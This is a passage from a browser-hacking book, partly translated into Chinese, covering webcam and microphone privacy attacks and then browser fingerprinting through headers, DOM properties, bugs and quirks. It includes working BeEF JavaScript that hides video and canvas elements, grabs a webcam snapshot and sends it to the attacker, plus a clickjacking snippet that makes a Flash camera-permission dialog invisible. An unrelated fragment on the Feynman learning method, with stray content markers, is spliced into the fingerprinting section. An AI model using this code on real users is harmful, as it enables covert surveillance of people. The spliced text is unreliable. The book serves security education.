为了降低 SWF 文件引发警报的可能性，你可以对目标进行信息收集，并尝试识别它们通常访问的网站。如果这些网站使用内容分发网络（CDN）且要求麦克风或摄像头权限，目标白名单的 CDN 源的可能性很高。与其从随机来源提供恶意 Flash 文件，不如通过 CDN 或其他类似来源提供。不要忘记，你也可以使用第 2 章“ARP Spoofing”部分的技术在来源中注入内容。

虽然利用 Flash 的功能很棒，但你可能会想：“所有这些酷炫的 HTML5 东西我都在听说，能不能不使用 Flash 就能实现？”简短回答是：“当然可以！”

Web Real-Time Communication（WebRTC）是 W3C 为浏览器间实时通信需求制定的当前提案标准。WebRTC 在 Chrome 从 23 版起支持，Firefox 从 22 版起支持。如果你想尝试在 HTML5 中启用摄像头，请参考 navigator.getUserMedia 函数。截至本文写作时，部分功能仍属实验性，可能会随时间变化。

MediaStream API 是 WebRTC 用于描述和处理浏览器内音频或视频数据流的部分。其核心是 MediaStream 对象本身，它是一个指向存储在 DOM 文件或 blob 对象中的 URL 字符串。将其封装在一起需要一些 DOM 元素，包括 <video> 和 <canvas> 元素。

下面的代码演示了如何添加所需元素并将 MediaStream 关联到 <video> 元素。随后，代码会在 <canvas> 元素中捕获快照。最后，代码会使用：

```
// Build the video element
var video_element = document.createElement("video");
video_element.id = "vid_id";
video_element.style = "display:none;";
video_element.autoplay = "true";

// Build the canvas element
var canvas_element = document.createElement("canvas");
canvas_element.id ="can_id";
canvas_element.style = "display:none;";
canvas_element.width = "640";
canvas_element.height = "480";

// Add the elements to the document's body
document.body.appendChild(video_element);
document.body.appendChild(canvas_element);

// Returns a drawing context for the canvas element.
// We want a 2D rendering context,
// as opposed to a WebGL context (3D)
var ctx = canvas_element.getContext('2d');

// Define a null set variable for the stream
var localMediaStream = null;

// This function gets called AFTER we have the media stream setup
var captureimage = function() {
  // Checks that there is a non-null stream
  if (localMediaStream) {
    // Draw an image into the canvas from the video element
    // aligned to the top left corner (0,0)
    ctx.drawImage(video_element,0,0);

    // Send a data: URL back to the attacker with the encoded image
    beef.net.send("<%= @command_url %>",
      <%= @command_id %>,
      'image='+canvas_element.toDataURL('image/png'));
  } else {
    // Something didn't work
    beef.net.send("<%= @command_url %>",
      <%= @command_id %>,
      'result=something went wrong');
  }
}

// Ensure we grab the correct window.URL object
window.URL = window.URL || window.webkitURL;

// Ensure we grab the correct getUserMedia function
navigator.getUserMedia  = navigator.getUserMedia || 
                          navigator.webkitGetUserMedia ||
                          navigator.mozGetUserMedia ||
                          navigator.msGetUserMedia;

// Prompt for permission to grab the camera
// Then call the function(stream) function - if successful
navigator.getUserMedia({video:true},function(stream) {

  // set the video element to the URL representation of 
  // the media stream
  video_element.src = window.URL.createObjectURL(stream);

  // Copy the stream (this is checked in the captureimage func)
  localMediaStream = stream;

  // Execute the captureimage function in 2 seconds
  setTimeout(captureimage,2000);

}, function(err) {
  // Couldn't get stream
  beef.net.send("<%= @command_url %>",
    <%= @command_id %>,
    'result=getUserMedia call failed');
});
```

执行此代码的结果是提交一个 data: URI 格式的图像，返回给你。与本章其他许多攻击类似，此攻击仍依赖于社交工程。具体来说，它涉及诱导用户在尝试访问摄像头时接受浏览器警告，如 Figure 5-33 所示。

start figure 

**Figure 5-33:** Warning in Chrome when accessing webcam


end figure 


Techniques have been discovered that trick users into inadvertently allowing a specified origin to use a webcam or microphone with Flash. Igor Homakov demonstrated a similar technique to the Flash ClickJacking concept from RSnake, discussed in Chapter 4, in order to take shots from the webcam without any apparent user-intervention.35 This attack worked in Chrome up to version 27. The attack loaded a Flash object inside another Flash object, the latter being attached to the DOM with opacity:0, as shown in the code below:

``` 
<object style="opacity:0.0;position:absolute;
top:129px;left:100px;"  width="270" height="270">
 <param name="movie" value="cam.swf">
 <embed src="cam.swf" width="270" height="270"></embed>
</object>  
```

In this way the outer cam.swf was loaded through the object tag. Although it would display the Flash warning asking the user to Allow or Deny the camera access, it would not be visible thanks to the opacity settings. Figure 5-34 shows how the attack would look, adjusting the opacity for demo purposes (otherwise the Flash dialog wouldn’t be seen).

 start figure 

**Figure 5-34:** CamJacking


 end figure 

Using this attack with versions of Chrome older than 28 would result in accessing the camera or microphone of a user in a more covert way. The only requirement is tricking the target into clicking somewhere in the page as described with ClickJacking attacks in Chapter 4.

This section has highlighted how you as an attacker can bypass some of the implicit, and not-so-implicit, privacy controls. Short of putting a sticker over your webcam, these sorts of attacks highlight the importance of being aware of dialog boxes that are presented via the browser. Unfortunately, many web users are so used to simply clicking OK and Go that in many instances, they may be suffering from dialog box fatigue.

# Summary

This chapter has presented a number of different techniques in which the trust and privacy of a web browser user can be abused as part of a security assessment. Though a number of these methods rely on some form of trickery or even UI-based illusion, it’s pertinent to recall just how often users are likely to simply click OK on every dialog box they’re presented with.

You examined just how much useful information you can gather from most browsers, such as keystrokes, mouse movements, and even interacting with hardware such as the user’s camera. As browser technology continues to change, in particular with the changes being made within the HTML5 space, these attack techniques will continue to evolve.

The chapter finished up by demonstrating direct privacy-impacting events, such as interacting with your computer’s webcam. Although universal access to this technology is not yet available, this space will continue to grow. A prime example is Google’s recent announcement of its Glass product. The possibilities of hooking a pair of glasses and then surreptitiously enabling the camera or microphone is a target we’re sure a number of security people will be hard-pressed to resist.

# Questions

Level1 **1.** Describe a JavaScript method that could be used to rewrite HTML content within a rendered page. **2.** What JavaScript event would need to be overridden to capture mouse click? **3.** Describe a practical example of how you could abuse UI expectations on Internet Explorer. **4.** How can you circumvent the SmartScreen filter in IE? **5.** Why are software update prompts a good feature to impersonate? **6.** What browsers can you execute TabNabbing attacks against? **7.** Describe the benefits and limitations of running a Java applet. Is it better to run a signed or unsigned one? **8.** What resources can be requested to determine if the browser is using Tor? **9.** What conditions must exist to record audio via a browser? **10.** What is a CamJacking attack? 

/Level1

For answers to the questions please refer to the book’s website at [`browserhacker.com/answers`](https://browserhacker.com/answers%20) or the Wiley website at: [www.wiley.com/go/browserhackershandbook](http://www.wiley.com/go/browserhackershandbook).

**Notes**

1\. Mozilla. (2011). stringify- JavaScript | MDN. Retrieved November 15, 2013 from [`developer.mozilla.org/en-US/docs/JavaScript/Reference/Global\_Objects/JSON/stringify`](https://developer.mozilla.org/en-US/docs/JavaScript/Reference/Global_Objects/JSON/stringify)

2\. Mozilla. (2013). HTML script element. Retrieved November 15, 2013 from [`developer.mozilla.org/en/docs/Web/HTML/Element/script`](https://developer.mozilla.org/en/docs/Web/HTML/Element/script)

3\. The jQuery Foundation. (2013). Selectors | jQuery API Documentation. Retrieved November 15, 2013 from [`api.jquery.com/category/selectors/`](http://api.jquery.com/category/selectors/)

4\. Microsoft. (2013). attachEvent method (Internet Explorer). Retrieved November 15, 2013 from [`msdn.microsoft.com/en-us/library/ie/ms536343(v=vs.85).aspx`](http://msdn.microsoft.com/en-us/library/ie/ms536343\(v=vs.85\).aspx)

5\. W3C. (2012). DOM Level 3 Events Specification: Focus Event Types. Retrieved November 15, 2013 from [`www.w3.org/TR/DOM-Level-3-Events/#events-focusevent`](http://www.w3.org/TR/DOM-Level-3-Events/#events-focusevent)

6\. Google. (2013). Keyboard Shortcuts - Gmail Help. Retrieved November 15, 2013 from [`support.google.com/mail/answer/6594?hl=en`](http://support.google.com/mail/answer/6594?hl=en)

7\. W3C. (2013). DOM Level 3 Events Specification: Security Considerations. Retrieved November 15, 2013 from [`www.w3.org/TR/DOM-Level-3-Events/#security-considerations-Security`](http://www.w3.org/TR/DOM-Level-3-Events/#security-considerations-Security)

8\. W3C. (2013). DOM Level 3 Events Specification: Key Values and Unicode. Retrieved November 15, 2013 from [`www.w3.org/TR/DOM-Level-3-Events/#keys-unicode`](http://www.w3.org/TR/DOM-Level-3-Events/#keys-unicode)

9\. W3C. (2013). DOM Level 3 Events Specification: Guidelines for selecting and defining key values. Retrieved November 15, 2013 from [`www.w3.org/TR/DOM-Level-3-Events/#keys-Guide`](http://www.w3.org/TR/DOM-Level-3-Events/#keys-Guide)

10\. Jan Wolter. (2012). JavaScript Madness: Keyboard Events. Retrieved November 15, 2013 from [`unixpapa.com/js/key.html`](http://unixpapa.com/js/key.html)

11\. Wikipedia. (2013). Browser wars. Retrieved November 15, 2013 from [`en.wikipedia.org/wiki/Browser_wars`](http://en.wikipedia.org/wiki/Browser_wars)

12\. Caniuse. (2013). Pointer events. Retrieved November 15, 2013 from [`caniuse.com/pointer-events`](http://caniuse.com/pointer-events)

13\. Debasis Mohanty. (2005). Defeating Citi-Bank Virtual Keyboard Protection. Retrieved November 15, 2013 from [`seclists.org/bugtraq/2005/Aug/88`](http://seclists.org/bugtraq/2005/Aug/88)

14\. W3C. (2013). Touch Events. Retrieved November 15, 2013 from W3C. 2013. “Touch Events Version 1.” Accessed April 1, 2013. [`www.w3.org/TR/touch-events/`](http://www.w3.org/TR/touch-events/)

15\. Aza Raskin. (2010). Tabnabbing: A New Type of Phishing Attack. Retrieved November 15, 2013 from [`www.azarask.in/blog/post/a-new-type-of-phishing-attack/`](http://www.azarask.in/blog/post/a-new-type-of-phishing-attack/)

16\. Sindre Sorhus. (2013). Screenfull.js. Retrieved November 15, 2013 from [`github.com/sindresorhus/screenfull.js`](https://github.com/sindresorhus/screenfull.js)

17\. Rosario Valotta. (2013). Abusing browsers user interfaces (for fun & profit). Retrieved November 15, 2013 from [`sites.google.com/site/tentacoloviola/abusing-browsers-gui`](https://sites.google.com/site/tentacoloviola/abusing-browsers-gui)


18. Microsoft. (2013). 什么是用户帐户控制？2013 年 11 月 15 日检索自 `http://windows.microsoft.com/en-GB/windows-vista/what-is-user-account-control`。

19. Microsoft. (2013). SmartScreen 过滤器。2013 年 11 月 15 日检索自 `http://windows.microsoft.com/en-GB/internet-explorer/products/ie-9/features/smartscreen-filter`。

20. Symantec. (2013). Symantec Extended Validation 代码签名。2013 年 11 月 15 日检索自 `http://www.symantec.com/verisign/code-signing/extended-validation`。

21. Sean Ludwig. (2012). Gmail 终于超过 Hotmail，成为全球最大的电子邮件服务 | VentureBeat。2013 年 11 月 15 日检索自 `http://venturebeat.com/2012/06/28/gmail-hotmail-yahoo-email-users/`。

22. Microsoft. (2013). HTML 应用程序 (HTA) 入门。2013 年 11 月 15 日检索自 `http://msdn.microsoft.com/en-us/library/ms536496%28v=vs.85%29.aspx`。

23. Sophos. (2009). 信任的力量（误置信任）：HTA 与安全。2013 年 11 月 15 日检索自 `http://nakedsecurity.sophos.com/2009/10/16/power-misplaced-trust-htas-insecurity/`。

24. Mozilla. (2013). 启动式扩展。2013 年 11 月 15 日检索自 `https://developer.mozilla.org/en-US/docs/Extensions/Bootstrapped_extensions`。

25. Michele Orrù and Luca Carettoni. (2013). 利用 XSS 和 BeEF 破坏云基础设施。2013 年 4 月 6 日访问。`http://blog.beefproject.com/2013/03/subverting-cloud-based-infrastructure.html`。

26. Microsoft. (2013). 浏览器扩展劫持 Facebook 个人资料。2013 年 11 月 15 日检索自 `http://blogs.technet.com/b/mmpc/archive/2013/05/10/browser-extension-hijacks-facebook-profiles.aspx`。

27. Wikipedia. (2013). 办公室助手。2013 年 11 月 15 日检索自 `http://en.wikipedia.org/wiki/Office_Assistant`。

28. Alex McGeorge. (2013). 我们需要谈谈 Java。2013 年 11 月 15 日检索自 `http://seclists.org/dailydave/2013/q4/1`。

29. Jeremiah Grossman. (2009). 检测隐身模式。2013 年 11 月 15 日检索自 `http://jeremiahgrossman.blogspot.com.au/2009/03/detecting-private-browsing-mode.html`。

30. G. Aggarwal, E. Bursztein, C. Jackson, and D. Boneh. (2010). 现代浏览器中隐身模式的分析。2013 年 11 月 15 日检索自 `http://crypto.stanford.edu/~dabo/pubs/ppers/privatebrowsing.pdf`。

31. Kyle Wilhoit. (2013). 那个没有哭的 SCADA。2013 年 11 月 15 日检索自 `https://media.blackhat.com/us-13/US-13-Wilhoit-The-SCADA-That-Didnt-Cry-Wolf-Whos-Really-Attacking-Your-ICS-Devices-Slides.pdf`。

32. Ben Toews. (2012). 利用 XSS 攻击密码管理器。2013 年 11 月 15 日检索自 `http://btoe.ws/2012/04/25/Abusing-Password-Managers-with-XSS.html`。

33. W3C. (2011). WebRTC 1.0：浏览器之间的实时通信。2013 年 11 月 15 日检索自 `http://dev.w3.org/2011/webrtc/editor/webrtc.html`。

34. Mozilla. (2013). 媒体流 API。2013 年 11 月 15 日检索自 `https://developer.mozilla.org/en-US/docs/WebRTC/MediaStream_API`。

35. Egor Homakov. (2013). Camjacking：点一下说奶酪。2013 年 11 月 15 日检索自 `http://homakov.blogspot.ru/2013/06/camjacking-click-and-say-cheese.html`。

36. Wikipedia. (2013). Google Glass。2013 年 11 月 15 日检索自 `http://en.wikipedia.org/wiki/Google_Glass`。

# 第 6 章

# 攻击浏览器

浏览器是人们日常生活中进行众多活动的入口。从保持与朋友联系到决定在线游戏中的作物是否需要浇水，浏览器负责提供我们访问购物、银行、娱乐和信息的渠道。为了实现这一点，浏览器已经不再仅仅是查看网页的工具，而是演变为能够运行其他应用程序的应用本身。

历史上，浏览器一直是攻击者的主要目标，因为它们需要支持众多功能。1 有趣的是，浏览器在安全方面的进步令人惊叹；安全如今被视为一种可销售的特性。以 Firefox 为例，如图 6-1 所示。

 start figure 

**Figure 6-1:** Firefox—快速、灵活、安全


 end figure 

这并不意味着攻击者不再关注浏览器。相反，情况正好相反。攻击者（以及安全研究人员）正在大量精力投入对浏览器的攻击。甚至出现了公开竞赛，奖金丰厚，旨在发现浏览器最新版本的新颖漏洞。2 部分浏览器厂商提供奖金，以奖励发现浏览器漏洞的行为。3

使浏览器成为更具吸引力的目标的原因是它们从桌面应用转向移动应用的转变。我们正处于无处不在连接的时代。你不必走下街就能看到有人在智能手机上发推特或在 Instagram 上发照片——通过分享、发布、评论、评价、研究或仅仅浪费时间，沉浸在无尽的互联网海洋中。

随着人们越来越多地通过口袋里的设备访问更多网站和服务，对设备的信任也随之提升。在线银行和在线购物是两个跃跃欲试的领域。令人惊讶的是，移动在线商务的激增，特别是在线银行，最初出现在像非洲这样的发展中国家。4 在 20115 年，移动银行系统出现了繁荣，主要集中在非洲、亚洲和太平洋地区以及拉丁美洲，当时非洲约占系统的 30% 左右。

在本章中，你将学习如何直接对网页浏览器发起攻击。这意味着利用浏览器本身，忽略可能存在的任何扩展或插件。你将探索浏览器指纹、会话和 Cookie 的攻击、HTTPS 攻击，以及利用浏览器漏洞的更高级技术。

# 浏览器指纹

在成功攻击浏览器之前，了解目标浏览器的类型和版本是极其有益的。确定这些信息的过程称为指纹。正如人们拥有独特的指纹，浏览器也有独特的属性，可以用来识别浏览器、版本和操作系统。如果要使用针对操作系统或设备的特定漏洞进行攻击，了解底层平台尤为重要。


The term `fingerprinting` can actually be used to describe two different activities. The first is identifying the platform and version of a browser, but the secondary meaning is used when someone is trying to uniquely identify a specific browser from others. Identifying a unique browser is typically used to try to track an individual instead of just identifying the platform. Many other pieces of information are brought into this equation. However, for the purposes of this chapter, the term `fingerprinting` is defined as the act of determining the browser platform and version. For more information about tracking individual users, refer to the “Privacy Attacks” section in Chapter 5.

So, how do you narrow down the exact browser version a target is using? To answer this, this section looks at `HTTP request headers`, `DOM properties`, as well as browser quirks.

`HTTP request headers` are information that is sent with every web request, which detail the supported features of the browser, the URL that is requested, as well as the host and other information. You can look at the header sent to help pick out differences from one browser to the next, as you will explore in the next section.

By looking at the `DOM`, you can see what information the browser has stored about a page that’s being viewed. Because different browsers support different features, particularly those exposed within the DOM, this will help reveal what features a browser has. By comparing that to known features of browsers, you can narrow down the browser type and version further. By combining knowledge about how different aspects of the DOM fit together, you can identify multiple different aspects of the DOM that vary across platform and version, and then combine those to create a match.

You will also investigate how browser bugs can be used to identify a browser. As with most applications, browsers have inconsistencies and bugs from time to time. By looking at these features you can work out if a browser is above or below a certain patch level.

By combining multiple pieces of information, you can determine that a browser might be above version 23 and below version 25, effectively narrowing it down to just a single version. This is the type of fine-tuning that brings you closer to what the actual version of a browser is, and with that information you can more specifically tailor attacks to a particular target.

Combining information gathered from the browser’s `User-Agent` (`UA`) header and `DOM` properties is useful for validating your fingerprinting results. The `UA` header can be spoofed easily so it shouldn’t always be trusted by itself. If you hook a browser that includes “Firefox” in its `UA` header, but appears to have the `window.opera` property in the DOM, this browser may not in fact be Firefox. From this analysis you might deduce that it is in fact an Opera browser with a fake `UA` header. `DOM` properties can be spoofed too, but it’s not as simple, nor as common, as changing the `UA` header. If you add some checks for browser bugs, in addition to `DOM` properties and `UA` headers, you should be able to reliably ascertain what type of browser you’re attacking.

## Fingerprinting using HTTP Headers

Headers are included in every HTTP request and response, as touched on briefly in the “HTTP Headers” section of Chapter 1. These headers help the browser and the server agree on how information will be transferred, as well as share information about web pages and data that are beyond the scope of the contents of the page. The type of things that browsers and servers discuss is a topic that isn’t for those weak in constitution. They tend to dismiss the pleasantries and get down to the bare essentials pretty quickly. Let’s take a look at Figure 6-2 to understand what makes up a web request.

 start figure 

**Figure 6-2:** Browser headers observed at echo.opera.com


 end figure 

By visiting [`echo.opera.com`](http://echo.opera.com), you can view the headers that your browser sends to the server within the request. The top line is frequently called the request line. It consists of a verb, a location, and a protocol version. The verb is what you want to do. These are typically either `GET`, `POST`, or `HEAD`. In the context of fingerprinting, the verb, location, and protocol don’t matter as much as the rest of the information. You can see in Figure 6-2 that the `Host` header is first, and it is specifying that the host that you are connecting to is echo.opera.com. The fact that the `Host` header is first is important, as you’ll see further on.

For fingerprinting purposes, the `User-Agent` header is the most informative, but also the most easily spoofed header. You can see from the screenshot in Figure 6-2 that the browser is clearly indicating that it is Firefox 21 running on an Intel Macintosh. This browser is using the Gecko layout engine, the layout engine for Mozilla Firefox. This knowledge is additional verification that the browser is likely to be Firefox.

The rest of the headers indicate communication parameters. The `Accept` header indicates the types of information that the browser will accept as a response, and the `Accept-Language` header indicates the desired language. The `Accept-Encoding` header indicates preferences for how to compress the data returned in order to save space, and the `Connection` header indicates that it will support multiple requests on a single connection. These headers are often sent in a specific order. It’s also common that the order of the headers is different depending on different browser versions.

Take a look at Figure 6-3, which is the same page on a different platform, and try to spot the differences with Figure 6-2.

 start figure 

**Figure 6-3:** Results of echo.opera.com viewed through IE 6 on Windows XP


 end figure 

You can tell from the icon that this was taken on a Windows box running Internet Explorer. As you dig in, you see a number of other things that help identify not just the browser, but the software that’s installed on the system. Looking at the `User-Agent` headers here, you see that this is IE 6 on Windows XP, but that’s not all: the `User-Agent` is also listing the web-based enhancements that have been installed into IE.

The .NET framework versions 2, 3, 3.5, and 4 have all been installed, and the Microsoft Real-Time Communications plugins are also installed. If this browser isn’t spoofing the `User-Agent` field, you now know exact versions of this software that you might be able to target. However, if the information is spoofed, you are still getting useful information simply from the order in which the headers are sent.

Take note of the order of each header item, and notice the position of the `Host` header. In the case of Firefox the `Host` header is first, and on IE 6 it’s closer to the end. The `Accept`, `Accept-Language`, and `Accept-Encoding` headers are in the same order, however, they are before the `User-Agent` instead of after. These aspects are more difficult to change than the contents of the `User-Agent` field, so when you see headers in this order, it’s a good indication that the browser you’re targeting really is Internet Explorer.

To make life a little more interesting, not all versions of IE send the headers in the same order. Take a look at IE 8 on Windows 7, as shown in Figure 6-4.

 start figure 

**Figure 6-4:** Results of echo.opera.com viewed through IE8 on Windows 7


 end figure 


你可能会注意到一些相似之处，特别是`Accept`和`Accept-Language`头部的位置，它们在`User-Agent`头部之前。`Host`头部仍然是倒数第二个项目。但是，`Accept-Encoding`头部已经移动了。`User-Agent`也在提供一些更新的信息。你可以看到布局引擎被列为`Trident/4.0`，新特性如`Media Center PC`和`SLCC2`也被列为可用特性。你还可以看到`Accept`字段列出的内容与 IE 6 不同。

如果`User-Agent`字段被伪造，了解这些差异将帮助你推断出该浏览器仍然是 IE 的一个变体。由于`Accept-Encoding`头部在`User-Agent`头部之后，你也知道这个 IE 版本高于 6。你能结合的信息越多，就越能精确定位浏览器的具体版本。

你可能也注意到，`User-Agent`字符串似乎包含了底层操作系统的描述符，例如`Windows NT 6.1`。虽然确定浏览器下方的桌面操作系统相对简单，因为操作系统组合的数量有限，但当涉及移动设备时，这种复杂性会大幅增加。

`MobileESP`项目由 Anthony Hand 开发，旨在提供一个轻量级的移动设备检测 API。`MobileESP`支持多种语言，包括 ASP.NET、Ruby、Python 和 PHP，因此被认为相当可移植。项目还提供一个开源 JavaScript 库，用于在客户端有限度地检测移动设备。`mdetect.js`库通过包含来自约 75 种不同移动设备的 User-Agent 字符串列表来工作。库然后暴露了一系列 JavaScript 函数，可用于设备判断；例如，以下代码演示了如何检测 iPhone：

```
var deviceIphone = "iphone";
var deviceIpod = "ipod";
var deviceIpad = "ipad";

function DetectIphone()
{
  if (uagent.search(deviceIphone) > -1)
  {
    if (DetectIpad() || DetectIpod())
      return false;
    else
      return true;
  }
  else
    return false;
}
```

除了检测 iPhone 外，该库还提供检测 Symbian 设备、Google TV、Motorola Xoom 设备、各种 BlackBerry 设备、Palm 的 WebOS、游戏主机等的函数。你可以从[`code.google.com/p/mobileesp/`](https://code.google.com/p/mobileesp/)查看`mdetect.js`的最新版本。

### 使用 DOM 属性进行指纹识别

要准确定义目标浏览器的真实版本，你必须比较不同浏览器版本之间可用的特征和其他信息。DOM 是进行这类调查最易访问的领域之一。

DOM 不仅存储显示在屏幕上的文档信息，还包含如分辨率、导航功能等其他信息，帮助开发者更轻松地与浏览器交互。随着新特性的实现，它使你能够映射浏览器类型，并进一步缩小所使用浏览器的版本范围。

#### 使用 DOM 属性存在性检查

检查特定 DOM 属性的存在可以帮助你确定浏览器的精确版本。如果你访问[`webbrowsercompatibility.com/dom/desktop/`](http://webbrowsercompatibility.com/dom/desktop/)，可以看到不同浏览器的 DOM 属性差异。该网站对 DOM 特性与浏览器版本进行映射，方便开发者判断函数是否在多种浏览器中可用。在本节中，你将研究类似的属性，但目标是判断某些函数是否存在而其他函数不存在。通过比较某些函数存在而其他不存在的情况，你可以缩小浏览器版本的范围。

在查询 DOM 属性时，你可能会收到以下四种响应之一：

*   未定义，因为属性不存在

*   为 null 或 NaN，因为未设置

*   未知，用于已废弃的属性或需要 ActiveX（仅限 Internet Explorer）的属性

*   属性的实际值

你需要检查返回的值，但希望每个检查都返回 true 或 false。为此，你可以使用类似`!window.devicePixelRatio`的语句来判断属性是否存在。如果属性存在，该表达式返回 false；如果不存在，返回 true。这是一种反直觉的检查方式，因此为了获得更直观的答案，使用双重否定，如`!!window.devicePixelRatio`。双重否定会返回 true 表示属性存在，false 表示不存在。这使得在构建查询时更加清晰，并确保每个查询的结果只有 true 或 false。

让我们来看看实际应用。

Firefox 18.0 的发布中，Mozilla 将`devicePixelRatio`作为新 DOM 属性加入。7 你不必感到惊讶，该属性与显示网页内容有关。为什么你需要关注它？因为在指纹识别中，你不关心它的功能，只关心该属性在 Firefox 17.0 中不存在，而在下一个主版本 Firefox 18.0 中存在（如 Figure 6-5 所示的发布说明）。

 start figure 

**Figure 6-5:** Firefox 发布说明显示该属性的添加。


 end figure 

现在你已经掌握了这些知识，让我们来应用它进行指纹识别。从 Mozilla 发布服务器[`ftp.mozilla.org/pub/mozilla.org/firefox/releases/`](https://ftp.mozilla.org/pub/mozilla.org/firefox/releases/)下载 Firefox 17 和 18 版本。安装这两个全新版本的 Firefox 后，在两个版本上安装 Firebug 扩展。你可以从[`getfirebug.com/`](http://getfirebug.com/)获取 Firebug。Firebug 将让你查看 DOM 元素并查询元素。

打开 Firebug，进入 Console 标签页，确保勾选“Show Command Editor”选项，如 Figure 6-6 所示。你应该在屏幕右下角看到一个新的文本块，底部附带四个按钮：Run、Clear、Copy 和 History。

 start figure 

**Figure 6-6:** 启用 Firebug 命令编辑器面板


 end figure 

在两个 Firefox 版本的 Firebug 控制台中分别执行`!!window.devicePixelRatio`。你会看到相反的布尔值返回。在 Firefox 17 上执行该语句会返回 false 布尔值，如 Figure 6-7 所示。

 start figure 

**Figure 6-7:** 查看 Firefox 17 中的 devicePixelRatio 检查


 end figure 

在 Firefox 18 上执行该语句会返回 true 布尔值，如 Figure 6-8 所示。

 start figure 

**Figure 6-8:** 查看 Firefox 18 中的 devicePixelRatio 检查


 end figure 

需要注意的是，这并非针对 Firefox 18 的测试。该测试会告诉你：如果浏览器是 Firefox（它可能不是），那么版本号大于或等于 18（如果返回 true）；或者版本号小于 18（如果返回 false）。


-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```javascript
if (condVar > someVal) {console.log("xxx")}
```
[/content]

[content]
为了实践，你可以把这段知识封装成一个 JavaScript 函数，用于识别特定版本的 Firefox。查看 Firefox 的发布说明，除了 Firefox 18 的变更外，Firefox 21 版本还增加了 `window.crypto.getRandomValues` 的额外属性。通过两次检查，你可以很容易地缩小浏览器版本的可能范围：

```javascript
function fingerprint_FF(){
    result = "Unknown";
    if(!!window.crypto.getRandomValues) {
        result = "21+";
    }else{
        if(!!window.devicePixelRatio){
            result = "18+";
        }else{
            result = "-17";
        }
    }
    alert(result);
}
```

使用这个 JavaScript，你可以通过两次检查判断浏览器是否等于或大于 21 版，等于或大于 18 版，或者小于 17 版。要进一步精确到具体版本还需要更多信息，但通过组合多个检查，可以逐步实现对浏览器版本的更细粒度识别，如你在 Figure 6-9 中所见。

start figure 

**Figure 6-9:** Alert 框显示 Firefox 版本大于 21。


end figure 

这些推断不过是一种基于提供的细节进行估算的过程。在几个假设性例子中，网页浏览器开发者可能会在版本 25 移除 `devicePixelRatio` 属性，甚至在 Firefox 17.9 中添加它。这些变化可能导致你的检测算法出现假阳或假阴，因此请记住这只是一种估算，而非绝对确定。

请记住，就像可以伪造 UA 头部一样，你也可以伪造 DOM 属性。假设 http://browservictim.com 是你控制的源站。现在在文档的 head 部分预置以下代码。如果第三方 JavaScript 试图通过 DOM 属性进行指纹识别，它可能会被误导：

```javascript
<script>
// with the following, the !!window.opera check returns true
var opera = {isOpera: true}
window.opera = opera;
</script>
```

当 DOM 被指纹识别时，访问 `window.opera` 会返回以下结果：

```
>window.opera
Object {isOpera: true}

>!!window.opera
true
```

如果你只依赖单一的浏览器指标来获得高确定度，你会遇到问题。上面的代码正是说明了为什么需要结合多种检测方法，以降低指纹识别结果不准确的可能性。

### 使用 DOM 属性值

仅凭 DOM 属性的存在，只能让你走一部分路径来识别浏览器。要获取更多信息，你需要查看 DOM 中变量的实际值。

不同浏览器会有不同的、固有于浏览器本身的变量值，这些值不容易被更改。这一点很重要，因为更改 User-Agent 字符串非常容易。例如，Firefox 有很多扩展程序可以轻松更改 User-Agent。这在 Figure 6-10 中有所展示，其中 User-Agent 已被更改为 Internet Explorer，但通过查看 DOM 变量，你仍然可以确定你在使用 Firefox。

start figure 

**Figure 6-10:** 使用 Firebug 控制台获取浏览器信息


end figure 

尽管在 Figure 6-10 中 User-Agent 已被更改为 Internet Explorer，但 `window.navigator` 数据实际上同时包含修改后的值和真实值。`appName` 字段包含修改后的值，而 `userAgent` 字段仍保留真实的 User-Agent。通过这种信息，你可以揭示真实的浏览器版本，以及语言和操作系统等其他重要信息。

为了更好地理解有多少人实际伪造了 User-Agent 头部，我们可以查看安装了“User-Agent Switcher for Chrome”扩展的 Chrome 用户数量。据此 writing 时统计，该扩展已安装接近半百万次。Firefox 用户安装“User Agent Switcher”扩展的情况也类似。

## 指纹识别使用软件缺陷

浏览器缺陷是进行浏览器指纹识别的最可靠方式之一。请注意，这里的“bug”并非通常意义上的缺陷，即导致安全问题的意外功能。在此语境下，bug 指的是常规的、意外的功能，不一定与安全直接相关。

缺陷可能由特定供应商在特定版本中引入，并在后续补丁或更新中修复。触发该缺陷可让你通过将其映射回修复时间，从而确定供应商和版本边界。

下面的示例缺陷详见 [`bugs.webkit.org/show_bug.cgi?id=96694`](https://bugs.webkit.org/show_bug.cgi?id=96694)。当执行以下代码时，该缺陷应返回 false：

```javascript
function testVuln(){
 return !!document.implementation.createHTMLDocument(undefined)
  .querySelector("title").textContent ;
}

alert(testVuln())
```

然而，如果返回 true，则说明该缺陷已被修复。了解这一点，你就可以判断目标浏览器是否为基于 WebKit 的浏览器，且该缺陷已修复。如果是，浏览器不可能早于 2012 年 10 月之前的版本。你可以通过在 Safari 5 中测试（结果应为 false）以及在 Safari 6.0.2 中再次测试（结果应为 true）来验证这一点。这种检查有助于你缩小浏览器的具体补丁级别。

这种方法是进行浏览器指纹识别最可靠的方式之一，因为它相对难以伪造（虽然并非完全不可能）。对你来说最困难的部分是确定哪些缺陷具有实用价值，因为这并非一蹴而就的过程。

## 指纹识别使用 Quirks（怪癖）

Quirks 与缺陷类似，是特定浏览器或浏览器版本独有的功能。这可能包括浏览器支持的元素、JavaScript 函数返回的特定值，甚至是对同一功能的实现差异。

Erwan Abgrall 等人发布了一篇聚焦浏览器怪癖的论文，表明可以通过 XSS 浏览器怪癖来识别浏览器家族，甚至确定具体版本。

浏览器怪癖是区分不同浏览器版本和操作系统的最具揭示性的方面之一。由于浏览器不断将最新功能纳入，速度往往优先于标准化。这导致不同浏览器在变量名称、参数或其他同一功能的实现上存在差异。

一个典型例子是最近浏览器中可见性功能的实现差异。存在一个 DOM 变量用于显示页面是否可见。此外，Firefox 和 IE 分别使用 `mozHidden` 和 `msHidden` 两个独立变量。通过检查这些变量，你可以区分 Firefox 和 IE：

```javascript
var browser="Unknown";
var version = "";
if ( !document.hidden){
  if(!!document.mozHidden == document.mozHidden){
    browser="Firefox";
  }else if(!!document.msHidden == document.msHidden){
    browser="IE";
  }
}
if(browser == "Firefox")
{
  if(!!('content' in document.createElement('template'))){
    version = ">=22";
  }else{
    version = "<= 21";
  }
}else if(browser == "IE")
{
  version = ">=10";
}

alert(browser + ":" + version);
```


